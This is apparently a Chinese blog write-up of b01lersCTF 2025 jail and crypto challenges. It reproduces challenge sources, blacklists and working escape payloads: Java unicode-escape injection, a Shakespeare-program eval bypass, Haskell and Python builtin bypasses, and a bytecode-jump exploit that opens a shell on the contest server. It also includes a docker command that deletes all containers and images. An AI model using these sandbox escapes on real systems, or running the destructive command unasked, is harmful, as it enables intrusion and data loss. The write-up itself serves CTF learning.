



+++
title = "b01lersCTF2025"
slug = "b01lersctf2025"
description = "感觉就是jailCTF"
date = "2025-04-19T15:22:21"
lastmod = "2025-04-19T15:22:21"
image = ""
license = ""
categories = ["赛题"]
tags = ["jail"]
+++

```
docker stop $(docker ps -aq) && docker rm $(docker ps -aq) && docker rmi $(docker images -q)
```

## jail/vibe-coding

```python
#!/usr/bin/env python3

import os

FILE_TEMPLATE = """
import java.io.*;

public class Main {
    // %s
    public static void main(String[] args) {
        // TODO: implement me
    }

    public static String getFlag() throws IOException {
        // FIXME: we probably don't want the user accessing this; just throw for now
        throw new RuntimeException("Not implemented yet");

        // var br = new BufferedReader(new FileReader("/flag.txt"));
        // return br.readLine();
    }
}
"""

blacklist = ['\r', '\n']

if __name__ == "__main__":
    print(r"""+
|        ______  _____  _____  ____    ______  _____   ______   ______  _____  _____   _____
|       |      >/     ||_    ||    |  |   ___||     | |   ___| |   ___|/     \|     | |     |
|       |     < |  /  | |    ||    |_ |   ___||     \  `-.`-.  |   |__ |     ||     \ |    _|_
|       |______>|_____/ |____||______||______||__|\__\|______| |______|\_____/|__|\__\|___| |_|
+
Welcome to b01lersCorp Semantic LOad-balanced Program GENerator (SLOPGEN) v3.20.25.
    """, flush=True)
    comment = input('Enter your prompt below:\n> ')

    # No tricks, please :)
    for banned in blacklist:
        if banned in comment:
            print('Illegal characters: terminating...')
            exit()

    with open('/tmp/Main.java', 'w') as f:
        # Write the prompt into the source file
        f.write(FILE_TEMPLATE % comment)

        # TODO: run the actual model !!!

    print('\nYour program output:\n', flush=True)
    os.system('cd /tmp && javac Main.java && java Main')
    print('===', flush=True)

```

我们可以看到是进行了一个参数注入，如果可以绕过`//`，将恶意代码写入Java程序就可以获得flag了，本地换行发现这么去写代码确实可以

```java
import java.io.*;

public class Main {
    // %s \u000a static {
        try {
            java.io.BufferedReader br = new java.io.BufferedReader(new java.io.FileReader("flag.txt"));
            System.out.println(br.readLine());
        } catch (Exception e) {} } \u000a
    public static void main(String[] args) {
        // TODO: implement me
    }

    public static String getFlag() throws IOException {
        // FIXME: we probably don't want the user accessing this; just throw for now
        throw new RuntimeException("Not implemented yet");
    }
}
```

如果python解析`unicode`，绕过的话就可以

```java
\u000a static { try { java.io.BufferedReader br = new java.io.BufferedReader(new java.io.FileReader("/flag.txt")); System.out.println(br.readLine()); } catch (Exception e) {} } \u000a
```

本地测试成功，换flag位置即可

```java
\u000a static { try { java.io.BufferedReader br = new java.io.BufferedReader(new java.io.FileReader("/svg/flag.txt")); System.out.println(br.readLine()); } catch (Exception e) {} } \u000a
```

结果还是不对，后面打通之后发现主办方是真C，给的docker的flag位置和服务器上的不一样



## jail/shakespearejail

```python
#!/usr/local/bin/python3
import io
import random
import sys

from shakespearelang.shakespeare import Shakespeare
print("You're nothing like a summers day.")
print("enter your play > ")

blacklist = [
"Heaven",
"King",
"Lord",
"angel",
"flower",
"happiness",
"joy",
"plum",
"summer's",
"day",
"hero",
"rose",
"kingdom",
"pony",
"animal",
"aunt",
"brother",
"cat",
"chihuahua",
"cousin",
"cow",
"daughter",
"door",
"face",
"father",
"fellow",
"granddaughter",
"grandfather",
"grandmother",
"grandson",
"hair",
"hamster",
"horse",
"lamp",
"lantern",
"mistletoe",
"moon",
"morning",
"mother",
"nephew",
"niece",
"nose",
"purse",
"road",
"roman",
"sister",
"sky",
"son",
"squirrel",
"stone",
"wall",
"thing",
"town",
"tree",
"uncle",
"wind",
"Hell",
"Microsoft",
"bastard",
"beggar",
"blister",
"codpiece",
"coward",
"curse",
"death",
"devil",
"draught",
"famine",
"flirt-gill",
"goat",
"hate",
"hog",
"hound",
"leech",
"lie",
"pig",
"plague",
"starvation",
"toad",
"war",
"wolf"
]


blacklist += ["open",
			  "listen"]


blacklist += ["am ",
              "are ",
              "art ",
              "be ",
              "is "]

solution = ""
for line in sys.stdin:
    solution += line.lower()
    if line.strip().lower() == "[exeunt]":
        break

print("play received")
 
disallowed = False
for word in blacklist:
    if word.lower() in solution:
        print(f"You used an illegal word: {word}")
        disallowed = True
        break

if not solution.isascii():
    print("there were non-ascii characters in your solution.")
    disallowed = True

if (not disallowed):
    old_stdout = sys.stdout
    old_stdin = sys.stdin
    sys.stdout = io.StringIO()
    sys.stdin = io.StringIO()
    
    try: 
        interpreter = Shakespeare(play=solution, input_style='basic', output_style='basic')
        interpreter.run()
        payload = sys.stdout.getvalue()
    finally:
        sys.stdout = old_stdout
        sys.stdin = old_stdin
        
    eval(payload)
else:
    with open("insults.txt", "r") as file:
        insults = file.readlines()
        random_insult = random.choice(insults).strip()
        print(random_insult)
```

接受剧本，不能有禁用词，然后进行执行



```
A New Beginning.
Achilles, meow.
Andromache, meow.
Adriana, meow.
Aegeon, meow.
Aemilia, meow.
Agamemnon, meow.
Agrippa, meow.
Ajax, meow.
Alonso, meow.
Act I: meow.
Scene I: meow.
[Enter Achilles and Andromache]
Achilles: Thou the factorial of Andromache!
[Exit Andromache]
[Enter Adriana]
Achilles: Thou twice Andromache!
[Exit Adriana]
[Enter Aegeon]
Achilles: Thou twice Adriana!
[Exit Aegeon]
[Enter Aemilia]
Achilles: Thou twice Aegeon!
[Exit Aemilia]
[Enter Agamemnon]
Achilles: Thou twice Aemilia!
[Exit Agamemnon]
[Enter Agrippa]
Achilles: Thou twice Agamemnon!
[Exit Agrippa]
[Enter Ajax]
Achilles: Thou twice Agrippa!
[Exit Ajax]
[Enter Alonso]
Achilles: Thou the sum of the sum of the sum of Ajax and Agrippa and Aegeon and Andromache! Speak your mind!
Achilles: Thou the sum of the sum of Alonso and Agamemnon and Andromache! Speak your mind!
Achilles: Thou the sum of the sum of Ajax and Agrippa and Andromache! Speak your mind!
Achilles: Thou the sum of the sum of the sum of Ajax and Agrippa and Aegeon and Aemilia! Speak your mind!
Achilles: Thou the sum of Agrippa and Aemilia! Speak your mind!
Achilles: Thou the sum of the sum of the sum of Ajax and Agrippa and Aemilia and Andromache! Speak your mind!
Achilles: Thou the sum of the sum of the sum of the sum of Ajax and Agrippa and Aegeon and Adriana and Aemilia! Speak your mind!
Achilles: Thou the sum of the sum of Ajax and Agrippa and Agamemnon! Speak your mind!
Achilles: Thou the sum of the sum of the sum of the sum of Ajax and Agrippa and Aegeon and Andromache and Agamemnon! Speak your mind!
Achilles: Thou the sum of the sum of the sum of Ajax and Agrippa and Aegeon and Agamemnon! Speak your mind!
Achilles: Thou the sum of Agrippa and Aemilia! Speak your mind!
Achilles: Thou the sum of Alonso and Andromache! Speak your mind! Speak your mind!
[Exit Alonso]
[exeunt]
```

然后就成功的变出了`eval(input())`，进行RCE即可`__import__('os').system('whoami')`

## jail/>>=jail

```haskell
import Language.Haskell.Interpreter
import System.IO
import Data.List

eval' :: String -> IO ()
eval' x = do
  ret <- runInterpreter $ setImports ["Prelude", "System.IO"]
    >> runStmt "hSetBuffering stdout NoBuffering"
    >> runStmt x
  case ret of
    Right _ -> return ()
    Left (WontCompile ((GhcError msg):_)) -> putStrLn msg

check :: String -> Bool
check x = and $ map ($ x) [
    not . isInfixOf "readFile",
    not . isInfixOf "flag",
    not . isInfixOf ",",
    not . isInfixOf "(",
    not . isInfixOf "<",
    not . isInfixOf "+",
    not . isInfixOf "*",
    not . isInfixOf "/",
    not . isInfixOf "-",
    not . isInfixOf "&&",
    not . isInfixOf "||",
    not . isInfixOf "[",
    not . isInfixOf "]",
    not . isInfixOf "\"",
    not . isInfixOf "mempty",
    not . isInfixOf "replicate",
    not . isInfixOf "repeat",
    not . isInfixOf "pure",
    not . isInfixOf "return"]

main = do
  putStr "bhci> " >> hFlush stdout
  inp <- getLine
  if check inp then eval' inp else putStrLn "Illegal input."
```

有eval函数把传入字符串当成`haskell`代码进行执行，但是有黑名单，`toEnum` 和 `show`自增来构造出`flag.txt`

```haskell
p = toEnum 102 : toEnum 108 : toEnum 97 : toEnum 103 : toEnum 46 : toEnum 116 : toEnum 120 : toEnum 116
```

但是会被waf掉，我们前面搞个0出来截断就可以

```haskell
let z = take 0 $ show 0
p = toEnum 102 : toEnum 108 : toEnum 97 : toEnum 103 : toEnum 46 : toEnum 116 : toEnum 120 : toEnum 116 : z
```

最后再读取文件即可

```haskell
let z=take 0$show 0; p=toEnum 102:toEnum 108:toEnum 97:toEnum 103:toEnum 46:toEnum 116:toEnum 120:toEnum 116:z;in openFile p ReadMode >>= hGetContents >>= putStr
```

## jail/prismatic

```
docker build -t prismatic:latest .
docker run -d -p 1337:1337 --name prismatic_container prismatic:latest
```

```
# Copyright 2020 Google LLC
#
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     https://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.

# See options available at https://github.com/google/nsjail/blob/master/config.proto

name: "default-nsjail-configuration"
description: "Default nsjail configuration for pwnable-style CTF task."

mode: ONCE
uidmap {inside_id: "1000"}
gidmap {inside_id: "1000"}
rlimit_as: 10
rlimit_as_type: HARD
rlimit_cpu: 3
rlimit_cpu_type: HARD
rlimit_nofile_type: HARD
rlimit_nproc: 10
rlimit_nproc_type: HARD

envar: "TERM=xterm-256color"
time_limit: 60

mount: [
  {
    src: "/chroot"
    dst: "/"
    is_bind: true
  },
  {
    src: "/dev"
    dst: "/dev"
    is_bind: true
  }
]
```

对靶机环境进行权限限制之类的

```python
#!/usr/local/bin/python3
import string
import sys

allowed_chars = string.ascii_lowercase + ".[]; "

inp = input("> ")

for c in inp:
	if c not in allowed_chars:
		print(f"Illegal char {c}")
		exit()

sys.stdin.close()
sys.stdout.close()
sys.stderr.close()
exec(inp, {"__builtins__": {k: v for k, v in __builtins__.__dict__.items() if "__" in k}})
```

只允许使用小写字母、点、方括号、分号和空格，其实比较重要的是最后一句，ta只保留了包含双下划线的内置函数，像`print\open`这类的都不可以使用，其实这个黑名单过滤并不严格，小写字母都是够够的，只不过没有引号了，`sys.executable`是python解释器，利用函数替换

```python
import os;import sys;[os for os.unsetenv in [os.system]];del os.environ[sys.executable]
```

```python
from pwn import *

s = remote("localhost", 1337)
s.sendlineafter(
	b"> ",
	b"import os;import sys;[os for os.unsetenv in [os.system]];del os.environ[sys.executable]",
)
s.sendlineafter(b">>> ", b"print(open('/app/flag.txt').read())")
print(s.recvline().decode().split("\n")[0])
```

## jail/emacs-jail

```
# Copyright 2020 Google LLC
#
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     https://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.

# See options available at https://github.com/google/nsjail/blob/master/config.proto

name: "default-nsjail-configuration"
description: "Default nsjail configuration for pwnable-style CTF task."

mode: ONCE
uidmap {inside_id: "1000"}
gidmap {inside_id: "1000"}
rlimit_as: 134217728
rlimit_as_type: HARD
rlimit_cpu_type: HARD
rlimit_nofile_type: HARD
rlimit_nproc_type: HARD

envar: "TERM=xterm-256color" 
time_limit: 300

mount: [
  {
    src: "/chroot"
    dst: "/"
    is_bind: true
  },
  {
    src: "/dev"
    dst: "/dev"
    is_bind: true
  }
]
```

限制权限并且限制程序最多允许运行 300 秒（5 分钟）。

```elm
(defun x () (mapc (lambda (key) (unless (eq key 13) (local-set-key (vector key) 'ignore))) (number-sequence 0 255)))
(add-hook 'minibuffer-setup-hook 'x)
(setq inhibit-local-menu-bar-menus t)
(setq warning-minimum-level :error)
(dotimes (i 12) (global-unset-key (vector (intern (format "f%d" (1+ i))))))
(define-key key-translation-map (kbd "C-M-x") (kbd ""))
(define-key key-translation-map (kbd "C-j") (kbd ""))
(define-key input-decode-map (kbd "C-i") [ignore])
(define-key input-decode-map (kbd "TAB") [ignore])
(global-unset-key (kbd "C-\\"))
(global-unset-key (kbd "C-k"))
(global-unset-key (kbd "C-h"))
(global-unset-key (kbd "C-g"))
(global-unset-key (kbd "C-u"))
(global-unset-key (kbd "C-x"))
(global-unset-key (kbd "C-z"))
(global-unset-key (kbd "M-."))
(global-unset-key (kbd "M-%"))
(global-unset-key (kbd "M-n"))
(global-unset-key (kbd "M-x"))
(global-unset-key (kbd "M-0"))
(global-unset-key (kbd "M-!"))
(global-unset-key (kbd "M-:"))
(global-unset-key (kbd "M-`"))
(global-unset-key (kbd "M-&"))
(global-unset-key (kbd "M-|"))
(global-unset-key (kbd "M-?"))
```

直接按下键盘上的 q 键然后`Enter`，就会到测试区域，



在出现的`scratch`缓冲区中，输入以下内容`(kill-emacs)`，按住`Crtl+c`再按`Crtl+e`，就可以把flag爆出来，但是我并没有成功emm，不过确实是合理的

## jail/monochromatic

```python
#!/usr/local/bin/python3
import dis
import gc


def run():
	pass


gc.disable()
inp = bytes.fromhex(input("Bytecode: "))
names = tuple(input("Names: ").split())
if len(inp) > 200:
	print(f"Invalid bytecode {inp}")
	exit()
if len(names) > 5:
	print(f"Invalid names {names}")
	exit()
code = run.__code__.replace(co_code=inp, co_names=names)
for inst in dis.Bytecode(code):
	if (
		inst.opname.startswith("LOAD")
		or inst.opname.startswith("STORE")
		or inst.opname.startswith("IMPORT")
	):
		print(f"Invalid op {inst.opname}")
		exit()
run.__code__ = code
run()

```

字节码长度不能超过200字节，名称列表不能超过5个元素，禁用了`LOAD\STORE\IMPORT`，绕过之后进行命令执行

> JUMP_* opodes don't check bounds, so you can jump out of bounds to a bytecode gadget. find_gadgets.py finds gadgets that allow you to call exec(input()) given the appropriate co_names.

用一下大佬的exp

```python
# useful links
# https://docs.python.org/3.10/library/dis.html
# https://github.com/python/cpython/blob/3.10/Include/cpython/code.h
# https://github.com/python/cpython/blob/3.10/Include/cpython/bytesobject.h
# https://github.com/python/cpython/blob/3.10/Python/ceval.c
# https://github.com/python/cpython/blob/main/Python/ceval_macros.h
import dis
import opcode

from pwn import *


# from https://juliapoo.github.io/security/2021/05/29/load_fast-py3-vm.html
def inst(opc: str, arg: int = 0):
	"Makes life easier in writing python bytecode"

	nb = max(1, -(-arg.bit_length() // 8))
	ab = arg.to_bytes(nb, "big")
	ext_arg = opcode.opmap["EXTENDED_ARG"]
	inst = bytearray()
	for i in range(nb - 1):
		inst.append(ext_arg)
		inst.append(ab[i])
	inst.append(opcode.opmap[opc])
	inst.append(ab[-1])

	return bytes(inst)


"""
found possible <function MutableMapping.popitem at 0x7efe02c9d750> collections.abc 6 8 1
975           0 SETUP_FINALLY            8 (to 18)

976           2 LOAD_GLOBAL              0 (next)
              4 LOAD_GLOBAL              1 (iter)
              6 LOAD_FAST                0 (self)
              8 CALL_FUNCTION            1
             10 CALL_FUNCTION            1
             12 STORE_FAST               1 (key)
             14 POP_BLOCK
             16 JUMP_FORWARD            10 (to 38)
"""

offset = 1728880 + 2

bytecode = b"".join([
	inst("JUMP_ABSOLUTE", offset // 2),
])

payload = bytecode.ljust(100, b"\x09")
dis.dis(payload)
while True:
	#s = remote("localhost", 1337)
	s = remote("monochromatic.atreides.b01lersc.tf", 8443, ssl=True)

	s.sendlineafter(b"Bytecode: ", payload.hex().encode())
	s.sendlineafter(b"Names: ", b"exec input")
	s.sendline(b"import os;os.system('sh')")
	resp = s.recvrepeat(0.1)
	print(resp.decode())
	if not s.closed["recv"]:
		s.interactive()
		break
	s.close()
```

## crypto/ASSS

```python
from Crypto.Util.number import getPrime, bytes_to_long

def evaluate_poly(poly:list, x:int, s:int):
    return s + sum(co*x**(i+1) for i, co in enumerate(poly))

s = bytes_to_long(open(r"F:\Download\vibe_coding\vibe_coding\flag.txt", "rb").read())
a = getPrime(64)
poly = [a*getPrime(64) for _ in range(1, 20)]
share = getPrime(64)

print(f"Here is a ^_^: {a}")
print(f"Here is your share ^_^: ({share}, {evaluate_poly(poly, share, s)})")
```

让DeepSeek解，由于我本地字符串不长所以第一次写出这样的脚本就出了

```python
from Crypto.Util.number import long_to_bytes

a = 12849363163568131049
x_share = 9885022587805378133
y = 1563796752766287440192561386095300665355947147226054326492540674752115058608754237675584842805847099061645243753986544838100172279457649108218153898075624071798459451731650752035308251078556301450839032666026929572335183726351864947225297686620831517537149472610596182151528298514239102103732926457046830544693491060510131686541057560458940388052012721626603608122833497565235251638381015764144844492

# 计算s mod a和s mod x
s_mod_a = y % a
s_mod_x = y % x_share

# 计算逆元
inv_x = pow(x_share, -1, a)
inv_a = pow(a, -1, x_share)

# 应用中国剩余定理
mod_product = a * x_share
s_crt = (s_mod_a * x_share * inv_x + s_mod_x * a * inv_a) % mod_product

# 转换为字节
flag = long_to_bytes(s_crt)
print(flag.decode())
```

但是我本地的字节数比较小，远程的字节数是66个字节长度，所以就出现在这里，如果字节过大的话就得用另一种方法解决了

```
a = 13110559150233569243
x_share = 15941377112010459173
y = 10112551066585014574263120617790516555254734704519913712045784081200773409049034115056646905446747136448683529305769247957236503841855733983637666617270259525558981918589694872485531368638162337624284026707631445433578380096139816242786349810280513174118911313953958679612208808027943871590957310853317435815638110296145797088067667987242667212601030830766240250618051616230485760004015890946465945621392
```

看到最终WP要sagemath了，不过队友解出来了，放一下队友的exp

```python
#!/usr/bin/env python3
from pwn import *
import time
from sympy.ntheory.modular import crt
import sympy

context.log_level = 'debug'

def collect_data(num_connections=10):
    """Collect data from the remote server"""
    list1 = []  # Moduli list
    list2 = []  # Share list
    list3 = []  # Values list (large numbers)
    
    for i in range(num_connections):
        try:
            p = remote('asss.atreides.b01lersc.tf', 8443, ssl=True)
            
            # Get first value
            p.recvuntil(b'Here is a ^_^: ')
            a = p.recvline()[:-1]
            a = int(a.decode('utf-8'), 10)
            list1.append(a)
            
            # Get share values
            p.recvuntil(b'share ^_^: ')
            b = p.recvline()[:-1]
            b = b.decode('utf-8')
            b = b.split(', ')
            list2.append(int(b[0][1:], 10))
            list3.append(int(b[1][:-1], 10))
            
            p.close()
            print(f"Connection {i+1}/{num_connections} completed")
            time.sleep(1)  # Avoid overwhelming the server
        except Exception as e:
            print(f"Error on connection {i+1}: {e}")
            # If a connection fails, try again
            i -= 1
            time.sleep(2)
            continue
    
    return list1, list2, list3

def solve_crt(lista, list_share, list_y):
    """Solve using Chinese Remainder Theorem"""
    print('Collected moduli:', lista)
    print('Collected shares:', list_share)
    print('Collected values:', list_y)
    
    # Prepare for CRT
    moduli = []
    residues = []
    
    for i in range(len(lista)):
        # First modulus and residue
        moduli.append(lista[i])
        residues.append(list_y[i] % lista[i])
        
        # Second modulus and residue from shares
        moduli.append(list_share[i])
        residues.append(list_y[i] % list_share[i])
    
    # Use SymPy's CRT implementation
    s_rec, mod = crt(moduli, residues)
    
    print("Recovered value:", s_rec)
    print("Modulus:", mod)
    print("Bit length:", s_rec.bit_length())
    
    return s_rec

def int_to_bytes(n):
    """Convert an integer to bytes"""
    # Calculate the number of bytes needed
    num_bytes = (n.bit_length() + 7) // 8
    # Convert to bytes
    return n.to_bytes(num_bytes, byteorder='big')

def extract_flag(s_rec):
    """Try to extract the flag from the recovered integer"""
    # Convert to bytes and try to decode
    try:
        bytes_data = int_to_bytes(s_rec)
        # Look for flag pattern (usually starts with "flag{" or "CTF{" etc.)
        print("Raw bytes:", bytes_data)
        
        # Try to find flag format in the bytes
        flag_formats = [b"flag{", b"CTF{", b"b01lers{", b"{"]
        for format_start in flag_formats:
            if format_start in bytes_data:
                start_idx = bytes_data.index(format_start)
                end_idx = bytes_data.find(b"}", start_idx)
                if end_idx != -1:
                    flag = bytes_data[start_idx:end_idx+1].decode('utf-8')
                    return flag
        
        # If no specific format found, try to decode the whole thing
        text = bytes_data.decode('utf-8', errors='replace')
        print("Possible text:", text)
        return text
    except Exception as e:
        print(f"Error extracting flag: {e}")
        return None

def main():
    # If data is already collected, you can use these values directly
    use_existing_data = False
    
    if use_existing_data:
        # Use data from paste.txt
        lista = [17584271476152388921, 17370971913569156569, 14959881750433329757, 10303284208185415327, 15713836054255673819, 17478696318611502361, 13098744946226139623, 16955666992762514789, 17400563056979005187, 14895399098388854051]
        list_share = [11741896534246295149, 13766271162016128403, 10298792465391901379, 14589861000287547127, 12032587407650034763, 9331719354810106693, 12770590820017684649, 17590033785618719651, 16632024631370273077, 10007219471876742649]
        list_y = [51843339894594430511477195106634838415638423651817345596930708154547607313815854908867159440180095110807056026755477215148658767518973886701971682981971698070886828657868708218128273453096554066889881030942772341797102680463254274525036512657451791011268688507325492061926521631418195012504316928272412909669981049904288688034182493923608563142984021256164664586268938761418848942676317656829645433788, 1246031746311153323831712591179734709121040796146740611030096526123136613851005484759820414334167089647250156832731764720104684477914477546125008723501583621293856087734300405341615956996568685700895087782523748542475102009193735305723327432087609311672451839655152530184580649757651013057814374397429832901072912460341941161988857876228996923725224757287359075236096883072541212487826763103094467968944, 2976917307927483897052196616220801579678017487577896522257147674095125892345998018975090960303886771850202764080875397609058749896148840816580947391250338467221900831332931327058678022137072037183465174212043487736030921701757454999127608616347447380055325113542425043565916486827644704707246128578693224099596425735337017386146569791176945041604880090970076987612684388204879088704994778888105750806, 1384920290143909908703226936777372436793203522294243205025677290359643468639230135325162060558561635871272367231479723795564442951231283797561420265640290563328793048216492653316731045150925202366613437593854467629008532700105927129244361930444452740812988943385400738479709799144476592095539951839873084582384779454446586928688641189011644407608341499257343536310622826642258787819851949166122087619464, 77241817152648679036231972429294381702393651163502639776475028556278336078725176354285891169808504597706435120497631907808191078467500267351562773580742866711192170466763167010364725911538367566790786304319325827797640425149645307778637299987507073880514696400936367265709777473436271936050054165525034796359654465264682869694793689146750180462558587623759040856393369789927015616607627437829132323850, 764523548885397012320477471948825900475519103816830058192425565910781281025362579270437522402208334144043096499391518387471821322174434301591191559607903745441653957657494494698295996285278685232821131616090793202333953915035171732603609008507426267841013590563151434147187090943086119089003730864875039016683148871830631487711173159611710852455814649427907089482290408274624343455010944018166959770, 144064658515512655454646089699499232876959749660149996792201127452076520727680704403115041652968546656996316495132812786824199544567757184512998593189233467404279565252769681617130103115729144564139986559855142514841881348216595471862046939657894817866717466853432775442688310214534025345071362743239270237405078941417424052063235842155831529311818745544527867448067954418262512424218218379214406774838, 114957910927358084596779819001922125751235147058371444606117893010618320964248842209458123422144115068343176760022458967525514502402163926101959251740532506154262094489737142810526089718447412385747274784030948685071217358217592296955862493053541411378640519556277781185066480967318480849314979968291648064281823176303321907419421598875181169666096576945833833314304296556174806897434824087741286721782306, 26275415397285928766829883853306258812955570979623237113362386122234764896982641278479326183973284914225272286574670408724799183857716979238511062439993912230446611526700137145672660600745354478158115958998871112985097032588208884363679339850077888692762877190865121787088158324570619255440483910750648497105857394477083740000090962639689152802633369136418680272407301238306216534747374823245370017819228, 2297769956318797305100187036394309255007746600801751737436711883119976141694626009965570624872550636678566358956046808388673749895635919004020911477701400475529566504462292039389544415774119552552226091528204460545465400735225240665241177522414602867816613570324082145110138723981492497719672500202373827603548998896353923023211217307092006615272182696362812279754912012331963845255420844603374856288]
    else:
        # Collect new data from the server
        lista, list_share, list_y = collect_data(10)
    
    # Solve using CRT
    s_rec = solve_crt(lista, list_share, list_y)
    
    # Extract the flag
    flag = extract_flag(s_rec)
    if flag:
        print("Flag found:", flag)
    else:
        print("Flag not found. Try decoding the raw bytes manually.")

if __name__ == "__main__":
    main()
```

不过还是不太行，安装一下sagemath在我的Ubuntu20

```
# 安装依赖
sudo apt update
sudo apt install build-essential m4 dpkg-dev flex bison bc libssl-dev

# 下载SageMath源代码（将X.Y替换为你想要的版本，如9.5）
wget https://github.com/sagemath/sage/archive/9.3.tar.gz
tar -xvf 9.3.tar.gz
cd sage-9.3

./configure
make

ls -l sage
# 进入使用环境
./sage
```

但是不是很方便每次必须进目录才可以使用，所以再搞个软链接

```
sudo mkdir -p /opt/sage

sudo mv ~/Desktop/sage-9.3 /opt/sage/
sudo ln -s /opt/sage/sage-9.3/sage /usr/local/bin/sage

which sage

sage --version
```

装好了以后用，顺便给这台新的Ubuntu安装一个python3.10，避免以后忘了在这里写写利用命令

```
baozongw1@ubuntu:~/Desktop$ python3.10 --version
Python 3.10.17
baozongw1@ubuntu:~/Desktop$ python3.10 -m pip install pwntools
```

用西瓜杯的**Ezzz_php**测试了一下，可以用的
